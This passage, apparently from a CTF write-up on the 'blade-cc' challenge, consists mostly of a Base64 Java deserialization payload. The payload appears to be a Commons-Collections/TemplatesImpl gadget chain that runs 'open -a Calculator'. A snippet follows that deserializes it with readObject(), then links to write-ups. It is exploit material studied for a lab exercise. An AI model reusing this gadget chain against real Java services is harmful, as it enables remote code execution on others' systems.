nNBRFdsVWNtRnVjMlp2Y20xbGNuTjBBQzFiVEc5eVp5OWhjR0ZqYUdVdlkyOXRiVzl1Y3k5amIyeHNaV04wYVc5dWN5OVVjbUZ1YzJadmNtMWxjanQ0Y0hWeUFDMWJURzl5Wnk1aGNHRmphR1V1WTI5dGJXOXVjeTVqYjJ4c1pXTjBhVzl1Y3k1VWNtRnVjMlp2Y20xbGNqdTlWaXJ4MkRRWW1RSUFBSGh3QUFBQUFuTnlBRHR2Y21jdVlYQmhZMmhsTG1OdmJXMXZibk11WTI5c2JHVmpkR2x2Ym5NdVpuVnVZM1J2Y25NdVEyOXVjM1JoYm5SVWNtRnVjMlp2Y20xbGNsaDJrQkZCQXJHVUFnQUJUQUFKYVVOdmJuTjBZVzUwZEFBU1RHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN2VIQnpjZ0E2WTI5dExuTjFiaTV2Y21jdVlYQmhZMmhsTG5oaGJHRnVMbWx1ZEdWeWJtRnNMbmh6YkhSakxuUnlZWGd1VkdWdGNHeGhkR1Z6U1cxd2JBbFhUOEZ1cktzekF3QUdTUUFOWDJsdVpHVnVkRTUxYldKbGNra0FEbDkwY21GdWMyeGxkRWx1WkdWNFd3QUtYMko1ZEdWamIyUmxjM1FBQTF0YlFsc0FCbDlqYkdGemMzUUFFbHRNYW1GMllTOXNZVzVuTDBOc1lYTnpPMHdBQlY5dVlXMWxjUUIrQUJSTUFCRmZiM1YwY0hWMFVISnZjR1Z5ZEdsbGMzUUFGa3hxWVhaaEwzVjBhV3d2VUhKdmNHVnlkR2xsY3p0NGNBQUFBQUQvLy8vL2RYSUFBMXRiUWt2OUdSVm5aOXMzQWdBQWVIQUFBQUFCZFhJQUFsdENyUE1YK0FZSVZPQUNBQUI0Y0FBQUJnREsvcnErQUFBQU5BQTBDZ0FJQUNRS0FDVUFKZ2dBSndvQUpRQW9Cd0FwQ2dBRkFDb0hBQ3NIQUN3QkFBWThhVzVwZEQ0QkFBTW9LVllCQUFSRGIyUmxBUUFQVEdsdVpVNTFiV0psY2xSaFlteGxBUUFTVEc5allXeFdZWEpwWVdKc1pWUmhZbXhsQVFBRWRHaHBjd0VBRjB4dmNtY3ZaWGhoYlhCc1pTOUNZWE5sTDBWMllXdzdBUUFKZEhKaGJuTm1iM0p0QVFCeUtFeGpiMjB2YzNWdUwyOXlaeTloY0dGamFHVXZlR0ZzWVc0dmFXNTBaWEp1WVd3dmVITnNkR012UkU5Tk8xdE1ZMjl0TDNOMWJpOXZjbWN2WVhCaFkyaGxMM2h0YkM5cGJuUmxjbTVoYkM5elpYSnBZV3hwZW1WeUwxTmxjbWxoYkdsNllYUnBiMjVJWVc1a2JHVnlPeWxXQVFBSVpHOWpkVzFsYm5RQkFDMU1ZMjl0TDNOMWJpOXZjbWN2WVhCaFkyaGxMM2hoYkdGdUwybHVkR1Z5Ym1Gc0wzaHpiSFJqTDBSUFRUc0JBQWhvWVc1a2JHVnljd0VBUWx0TVkyOXRMM04xYmk5dmNtY3ZZWEJoWTJobEwzaHRiQzlwYm5SbGNtNWhiQzl6WlhKcFlXeHBlbVZ5TDFObGNtbGhiR2w2WVhScGIyNUlZVzVrYkdWeU93RUFDa1Y0WTJWd2RHbHZibk1IQUMwQkFLWW9UR052YlM5emRXNHZiM0puTDJGd1lXTm9aUzk0WVd4aGJpOXBiblJsY201aGJDOTRjMngwWXk5RVQwMDdUR052YlM5emRXNHZiM0puTDJGd1lXTm9aUzk0Yld3dmFXNTBaWEp1WVd3dlpIUnRMMFJVVFVGNGFYTkpkR1Z5WVhSdmNqdE1ZMjl0TDNOMWJpOXZjbWN2WVhCaFkyaGxMM2h0YkM5cGJuUmxjbTVoYkM5elpYSnBZV3hwZW1WeUwxTmxjbWxoYkdsNllYUnBiMjVJWVc1a2JHVnlPeWxXQVFBSWFYUmxjbUYwYjNJQkFEVk1ZMjl0TDNOMWJpOXZjbWN2WVhCaFkyaGxMM2h0YkM5cGJuUmxjbTVoYkM5a2RHMHZSRlJOUVhocGMwbDBaWEpoZEc5eU93RUFCMmhoYm1Sc1pYSUJBRUZNWTI5dEwzTjFiaTl2Y21jdllYQmhZMmhsTDNodGJDOXBiblJsY201aGJDOXpaWEpwWVd4cGVtVnlMMU5sY21saGJHbDZZWFJwYjI1SVlXNWtiR1Z5T3dFQUNEeGpiR2x1YVhRK0FRQUJaUUVBRlV4cVlYWmhMMmx2TDBsUFJYaGpaWEIwYVc5dU93RUFEVk4wWVdOclRXRndWR0ZpYkdVSEFDa0JBQXBUYjNWeVkyVkdhV3hsQVFBSlJYWmhiQzVxWVhaaERBQUpBQW9IQUM0TUFDOEFNQUVBRW05d1pXNGdMV0VnUTJGc1kzVnNZWFJ2Y2d3QU1RQXlBUUFUYW1GMllTOXBieTlKVDBWNFkyVndkR2x2Ymd3QU13QUtBUUFWYjNKbkwyVjRZVzF3YkdVdlFtRnpaUzlGZG1Gc0FRQkFZMjl0TDNOMWJpOXZjbWN2WVhCaFkyaGxMM2hoYkdGdUwybHVkR1Z5Ym1Gc0wzaHpiSFJqTDNKMWJuUnBiV1V2UVdKemRISmhZM1JVY21GdWMyeGxkQUVBT1dOdmJTOXpkVzR2YjNKbkwyRndZV05vWlM5NFlXeGhiaTlwYm5SbGNtNWhiQzk0YzJ4MFl5OVVjbUZ1YzJ4bGRFVjRZMlZ3ZEdsdmJnRUFFV3BoZG1FdmJHRnVaeTlTZFc1MGFXMWxBUUFLWjJWMFVuVnVkR2x0WlFFQUZTZ3BUR3BoZG1FdmJHRnVaeTlTZFc1MGFXMWxPd0VBQkdWNFpXTUJBQ2NvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhMMnhoYm1jdlVISnZZMlZ6Y3pzQkFBOXdjbWx1ZEZOMFlXTnJWSEpoWTJVQUlRQUhBQWdBQUFBQUFBUUFBUUFKQUFvQUFRQUxBQUFBTHdBQkFBRUFBQUFGS3JjQUFiRUFBQUFDQUF3QUFBQUdBQUVBQUFBTEFBMEFBQUFNQUFFQUFBQUZBQTRBRHdBQUFBRUFFQUFSQUFJQUN3QUFBRDhBQUFBREFBQUFBYkVBQUFBQ0FBd0FBQUFHQUFFQUFBQVhBQTBBQUFBZ0FBTUFBQUFCQUE0QUR3QUFBQUFBQVFBU0FCTUFBUUFBQUFFQUZBQVZBQUlBRmdBQUFBUUFBUUFYQUFFQUVBQVlBQUlBQ3dBQUFFa0FBQUFFQUFBQUFiRUFBQUFDQUF3QUFBQUdBQUVBQUFBYkFBMEFBQUFxQUFRQUFBQUJBQTRBRHdBQUFBQUFBUUFTQUJNQUFRQUFBQUVBR1FBYUFBSUFBQUFCQUJzQUhBQURBQllBQUFBRUFBRUFGd0FJQUIwQUNnQUJBQXNBQUFCaEFBSUFBUUFBQUJLNEFBSVNBN1lBQkZlbkFBaExLcllBQnJFQUFRQUFBQWtBREFBRkFBTUFEQUFBQUJZQUJRQUFBQTRBQ1FBU0FBd0FFQUFOQUJFQUVRQVRBQTBBQUFBTUFBRUFEUUFFQUI0QUh3QUFBQ0FBQUFBSEFBSk1Cd0FoQkFBQkFDSUFBQUFDQUNOd2RBQUVVSGR1Y25CM0FRQjRjM0lBT205eVp5NWhjR0ZqYUdVdVkyOXRiVzl1Y3k1amIyeHNaV04wYVc5dWN5NW1kVzVqZEc5eWN5NUpiblp2YTJWeVZISmhibk5tYjNKdFpYS0g2UDlyZTN6T09BSUFBMXNBQldsQmNtZHpjUUIrQUFsTUFBdHBUV1YwYUc5a1RtRnRaWEVBZmdBVVd3QUxhVkJoY21GdFZIbHdaWE54QUg0QUszaHdjSFFBRG01bGQxUnlZVzV6Wm05eWJXVnljSGh6Y2dBM2IzSm5MbUZ3WVdOb1pTNWpiMjF0YjI1ekxtTnZiR3hsWTNScGIyNXpMbVoxYm1OMGIzSnpMa052Ym5OMFlXNTBSbUZqZEc5eWVjOGtDcmR0V3lvSUFnQUJUQUFKYVVOdmJuTjBZVzUwY1FCK0FDZDRjSEVBZmdBamNIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIQndjSEJ3Y0hCd2NIZ0FBQUFBQUFBQVpIQjRweHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHB4AAAAAAAAAGRweA==";
        byte[] decode = Base64.getDecoder().decode(s);
        System.out.println(new String(decode));
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
        new ObjectInputStream(byteArrayInputStream).readObject();
    }
}
```



> https://www.n1ght.cn/2025/08/21/blade_cc/
>
> https://blog.p0l1st.top/2025/08/28/LilCTF-blade-cc/#blade-cc
>
> https://xz.aliyun.com/news/18694
